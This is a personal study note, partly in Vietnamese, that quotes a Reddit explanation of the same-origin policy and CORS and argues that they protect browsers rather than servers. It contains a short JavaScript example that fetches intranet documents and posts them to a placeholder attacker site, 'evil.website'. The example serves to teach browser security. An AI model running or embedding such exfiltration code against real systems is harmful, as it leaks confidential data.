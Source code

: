```yaml
---
share: true
created: 2023-10-30T14:29
updated: 2024-05-06T13:29
alias: same-origin policy là để trình duyệt bảo vệ người dùng, không phải để bảo vệ máy chủ
---
```

You are at work and you're connected to your company's intranet. Only people in your company's network can see this special website containing secret documents.

You visit this random website: [https://evil.website](https://evil.website). On this website, there is the following code:
```js
const fetchResult = await fetch("https://yourcompany.website/secret/documents");
const secretsPage = await fetchResult.text();
await fetch("https://evil.website/database/save", { method: "post", body: secretsPage });
```

Same origin policy (enabled on every browser) disallows this. You cannot be on evil.website and make a request to another website. So line 1 would throw an error and the rest of the code wouldn't run, saving you from a nasty situation.

CORS exists to loosen up this rule. Maybe yourcompany.website is totally cool with the above scenario because evil.website is their poorly named trusted partner. So yourcompany.website sets up CORS to tell the browser: "hey if you're making this request from evil.website, it's totally cool with us." Now the above code will work as expected as the browser is satisfied with this exception to the same origin policy.

In the above example, your browser was potentially being abused to exfiltrate company secrets that are only accessible from your network. Same origin policy protects **your browser** from being abused in these ways. CORS is about providing exceptions to this rule.

The misconception here is the following. People set up CORS on their webserver. That's why they expect CORS protects their web server in some way. This is 100% wrong. Setting CORS up properly is about protecting the clients (ie. browsers). The only side-effect CORS has for your webserver is that it may add a few response headers to help out the browser make a decision. The real magic happens on the browser.

Trích từ:: [What is CORS and why is it so annoying : r/reactjs](https://www.reddit.com/r/reactjs/comments/11cyejn/comment/ja77iy4/)

[How to win at CORS - JakeArchibald.com](https://jakearchibald.com/2021/cors/)
![](https://wizardzines.com/images/uploads/why-same-origin-matters.png) 
[Same-origin policy ngăn chặn việc script ở tab này điều khiển tab kia](./Same-origin%20policy%20ng%C4%83n%20ch%E1%BA%B7n%20vi%E1%BB%87c%20script%20%E1%BB%9F%20tab%20n%C3%A0y%20%C4%91i%E1%BB%81u%20khi%E1%BB%83n%20tab%20kia.md)
[Origin là sự kết hợp của protocol, hostname và port](../../Qu%E1%BA%A3n%20tr%E1%BB%8B%20m%E1%BA%A1ng/T%C3%AAn%20mi%E1%BB%81n,%20URI/Origin%20l%C3%A0%20s%E1%BB%B1%20k%E1%BA%BFt%20h%E1%BB%A3p%20c%E1%BB%A7a%20protocol,%20hostname%20v%C3%A0%20port.md)